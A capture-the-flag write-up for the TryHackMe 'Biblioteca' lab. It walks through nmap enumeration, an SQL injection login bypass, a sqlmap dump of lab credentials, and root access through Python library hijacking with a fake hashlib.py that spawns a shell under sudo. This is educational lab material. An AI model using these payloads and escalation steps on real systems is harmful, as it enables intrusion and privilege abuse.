 ```yaml
---
title: TryHackMe - Biblioteca
author: 0
date: 2023-03-31 17:00:00 +0800
categories: [thm, machine]
tags: [sql-injection, credential-reuse, sudo-l, python-library hijacking]
render_with_liquid: false
---
```

# Biblioteca - Medium
> Shhh. Be very very quiet, no shouting inside the biblioteca.

> Hit 'em with the classics.

### Enumeration
```bash
$ nmap -sC -sV  -A  -oN nmap_result 10.10.66.77
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 000bf9bf1d49a6c3fa9c5e08d16d8202 (RSA)
|   256 a10c8e5df07fa532b2eb2f7abfedbf3d (ECDSA)
|_  256 9eefc90afce99eede32db130b65fd40b (ED25519)
8000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.10)
|_http-title:  Login 
|_http-server-header: Werkzeug/2.0.2 Python/3.8.10
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The nmap result shows the webserver running on port 8000. When we connect to this port, we can see a login screen. Thinking about the introduction "Hit 'em with the classics.", hints that this is could be an authentication bypass through SQL injection.

### Foothold
 
By using `username=username&password=' or '1'='1` we can bypass the authentication form.

When logged, you only get an index screen that greets a user called "smokey".
We can dump the database by using sqlmap
```bash
$ sqlmap -r request  --dump
Database: website
Table: users
[2 entries]
+----+-------------------+----------------+----------+
| id | email             | password       | username |
+----+-------------------+----------------+----------+
| 1  | smokey@email.boop | My_P@ssW0rd123 | smokey   |
| 2  | test@hotmail.com  | test           | test     |
+----+-------------------+----------------+----------+
```

We can use these credential to ssh into the server. This account is very restricted but upon viewing the `/home/` dir we notice there is another user called "hazel". After some trial and error we managed to get access into the "hazel" account by bruteforcing as the account has the password "hazel".

### Privelege Escalation

Both `/home/hazel/user.txt` and `/root/root.txt` flags require root access.
By running `sudo -l`, we can see that hazel can run `sudo /usr/bin/python3 /home/hazel/hasher.py` without needing the root password.
```bash
hazel@biblioteca:~$ sudo -l
Matching Defaults entries for hazel on biblioteca:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hazel may run the following commands on biblioteca:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /home/hazel/hasher.py
```

We can see the `hasher.py` script imports the `hashlib` library. We can perform privilege escalation via "Python Library Hijacking"
```bash
hazel@biblioteca:~$ cat hasher.py 
import hashlib

def hashing(passw):

    md5 = hashlib.md5(passw.encode())

    print("Your MD5 hash is: ", end ="")
    print(md5.hexdigest())

    sha256 = hashlib.sha256(passw.encode())

    print("Your SHA256 hash is: ", end ="")
    print(sha256.hexdigest())

    sha1 = hashlib.sha1(passw.encode())

    print("Your SHA1 hash is: ", end ="")
    print(sha1.hexdigest())


def main():
    passw = input("Enter a password to hash: ")
    hashing(passw)

if __name__ == "__main__":
    main()
```

We can run `python3 -c 'import sys; print("\n".join(sys.path))'` to see the order of paths that searches in for its libraries. 
```bash
hazel@biblioteca:~$ python3 -c 'import sys; print("\n".join(sys.path))'

/usr/lib/python38.zip
/usr/lib/python3.8
/usr/lib/python3.8/lib-dynload
/usr/local/lib/python3.8/dist-packages
/usr/lib/python3/dist-packages
```

But this is not important to us as we can just force the `PYTHONPATH` to be where we save our modified version of the `hashlib.py` library.

We move to the `/tmp` dir as we don't have write permissions in our home directory. We create our version of the `hashlib.py` library that will be executed as sudo and calls `/bin/bash`. After running the script with `PYTHONPATH=/tmp` we managed to get root.

```bash
hazel@biblioteca:~$ cd /tmp
hazel@biblioteca:/tmp$ vi hashlib.py
hazel@biblioteca:/tmp$ hashlib.py 
import os

os.system('/bin/bash')
hazel@biblioteca:/tmp$ sudo PYTHONPATH=/tmp /usr/bin/python3 /home/hazel/hasher.py
root@biblioteca:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@biblioteca:/tmp# whoami
root
root@biblioteca:/tmp# cat /root/root.txt
THM{**REDACTED**}
root@biblioteca:/tmp# cat /home/hazel/user.txt
THM{**REDACTED**}
root@biblioteca:/tmp# 
```
